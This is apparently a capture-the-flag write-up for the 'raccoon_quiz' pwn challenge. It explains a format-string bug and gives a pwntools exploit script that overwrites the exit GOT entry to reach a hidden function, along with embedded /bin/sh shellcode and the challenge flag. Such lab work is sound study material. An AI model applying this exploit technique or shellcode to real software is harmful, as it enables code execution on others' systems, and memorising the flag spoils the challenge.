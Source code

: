 # raccoon_quiz
NAME: raccoon_quiz
CATEGORY: pwn
POINTS: 500
DOWNLOAD LINK: http://chal.ctf-league.osusec.org/raccoon_quiz
ACCESS: nc chal.ctf-league.osusec.org 4816
DESCRIPTION: Welcome to my super-awesome-amazing-raccoon-quiz-program (def no security vulns in here). Do you have what it takes to be the sneakiest raccoon expert of them all?
This resource might be helpful: https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf


## write up
This binary vulneriabiliy is string formatter. When running `pwn checksec` you can see that all the addresses in this binary are fixed. There is this function that we want to run called `super_sneaky_function`. To get there you want to overwrite the `exit` function on the Gobal Offset Table(GOT).



## script
```py
#!/usr/bin/env python3

import os
import sys
from pwn import *
from pwnlib.fmtstr import fmtstr_payload

context(arch='amd64', os='linux', endian='little', log_level='info')
context.terminal = ["tmux", "splitw", "-h"]

# set your target binary name here
binary_name = './raccoon_quiz'
gdb_command = ''
shellcode_64_nonzero = 'jlX\x0f\x05H\x89\xc7H\x89\xc6jrX\x0f\x05H\xbb//bin/shH1\xc0PSH\x89\xe7H\x89\xc6H\x89\xc2j;X\x0f\x05'

# setup debug binary
debug_name = binary_name[:-1] + 'x'
if not os.path.exists(debug_name):
    os.system("cp %s %s" % (binary_name, debug_name))


is_debug = False
# run program
if '--debug' in sys.argv:
    is_debug = True

if is_debug:
    p = process(debug_name)
    gdb.attach(p)
    raw_input("Press ENTER to continue to execute the program...")
else:
    # p = process(binary_name)
    p = remote("chal.ctf-league.osusec.org", 4816)


## write your exploit here
p.sendline("A")
p.sendline("B")
p.sendline("A")
# ask for the leadername
# p.sendline(b'AAAABBBB %6$p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p')
# print(p.recv())


exit_plt = 0x602050
super_sneaky_function = 0x400747
p.sendline(fmtstr_payload(6, {exit_plt: super_sneaky_function}))
# print(p.recv())

p.interactive()
```


## flag 
`osu{tr4a5h_pr0gr4mm1ng_in_4_tr4sh_g4m3}`